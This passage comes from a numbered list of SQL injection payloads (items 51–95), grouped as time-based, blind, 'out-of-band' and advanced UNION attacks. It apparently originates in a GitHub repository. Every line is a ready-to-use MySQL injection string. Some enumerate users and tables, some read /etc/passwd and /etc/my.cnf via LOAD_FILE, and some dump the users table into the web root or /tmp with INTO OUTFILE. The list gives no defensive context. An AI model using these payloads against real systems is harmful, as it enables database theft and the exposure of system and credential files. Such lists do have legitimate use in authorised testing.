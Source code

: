 ### Time-Based SQL Injection
51. `' OR IF(1=1, SLEEP(5), 0)--`
52. `' OR IF(1=2, SLEEP(5), 0)--`
53. `' OR IF(1=1, BENCHMARK(1000000, MD5('test')), 0)--`
54. `' OR IF(1=2, BENCHMARK(1000000, MD5('test')), 0)--`
55. `' OR IF(LENGTH(@@version) > 10, SLEEP(5), 0)--`
56. `' OR IF((SELECT COUNT(*) FROM users) > 5, SLEEP(5), 0)--`
57. `' OR IF((SELECT LENGTH(@@version)) = 10, SLEEP(5), 0)--`
58. `' OR IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) > 10, SLEEP(5), 0)--`
59. `' OR IF((SELECT LENGTH(@@version)) BETWEEN 5 AND 20, SLEEP(5), 0)--`
60. `' OR IF((SELECT LENGTH(@@version)) NOT BETWEEN 5 AND 20, SLEEP(5), 0)--`

### Blind SQL Injection
61. `' AND 1=IF((SELECT COUNT(*) FROM users) > 0, SLEEP(5), 0)--`
62. `' AND 1=IF((SELECT LENGTH(@@version)) = 10, SLEEP(5), 0)--`
63. `' AND 1=IF((SELECT COUNT(*) FROM information_schema.tables) > 5, SLEEP(5), 0)--`
64. `' AND 1=IF((SELECT LENGTH(@@version)) BETWEEN 5 AND 20, SLEEP(5), 0)--`
65. `' AND 1=IF((SELECT LENGTH(@@version)) NOT BETWEEN 5 AND 20, SLEEP(5), 0)--`
66. `' AND 1=IF(1=1, SLEEP(5), 0)--`
67. `' AND 1=IF(1=2, SLEEP(5), 0)--`
68. `' AND 1=IF((SELECT COUNT(*) FROM users) < 5, SLEEP(5), 0)--`
69. `' AND 1=IF((SELECT LENGTH(@@version)) != 10, SLEEP(5), 0)--`
70. `' AND 1=IF((SELECT COUNT(*) FROM information_schema.tables) < 10, SLEEP(5), 0)--`

### Out-of-Band SQL Injection
71. `' OR 1=1; SELECT * FROM users INTO OUTFILE '/var/www/html/users.txt'--`
72. `' OR 1=1; SELECT * FROM users INTO OUTFILE '/var/www/html/test.txt' FIELDS TERMINATED BY ','--`
73. `' OR 1=1; SELECT * FROM users INTO OUTFILE '/tmp/users.txt'--`
74. `' OR 1=1; SELECT * FROM users INTO OUTFILE '/tmp/test.txt' FIELDS TERMINATED BY '|'--`
75. `' OR 1=1; SELECT * FROM users INTO OUTFILE '/var/www/html/data.csv' FIELDS TERMINATED BY ',' ENCLOSED BY '"'--`
76. `' OR 1=1; SELECT @@version INTO OUTFILE '/tmp/version.txt'--`
77. `' OR 1=1; SELECT user() INTO OUTFILE '/tmp/user.txt'--`
78. `' OR 1=1; SELECT table_name FROM information_schema.tables INTO OUTFILE '/tmp/tables.txt'--`
79. `' OR 1=1; SELECT column_name FROM information_schema.columns WHERE table_name='users' INTO OUTFILE '/tmp/columns.txt'--`
80. `' OR 1=1; SELECT COUNT(*) FROM users INTO OUTFILE '/tmp/count.txt'--`

### Advanced SQL Injection
81. `' UNION ALL SELECT 1, GROUP_CONCAT(user()) FROM mysql.user--`
82. `' UNION ALL SELECT 1, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()--`
83. `' UNION ALL SELECT 1, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users'--`
84. `' UNION ALL SELECT 1, LOAD_FILE('/etc/passwd')--`
85. `' UNION ALL SELECT 1, LOAD_FILE('/etc/my.cnf')--`
86. `' UNION ALL SELECT 1, @@version--`
87. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(user()) FROM mysql.user)--`
88. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database())--`
89. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')--`
90. `' UNION ALL SELECT 1, (SELECT LOAD_FILE('/etc/passwd'))--`
91. `' UNION ALL SELECT 1, (SELECT LOAD_FILE('/etc/my.cnf'))--`
92. `' UNION ALL SELECT 1, (SELECT @@version)--`
93. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')--`
94. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database())--`
95. `' UNION ALL SELECT 1, (SELECT GROUP_CONCAT(user()) FROM mysql.user)--`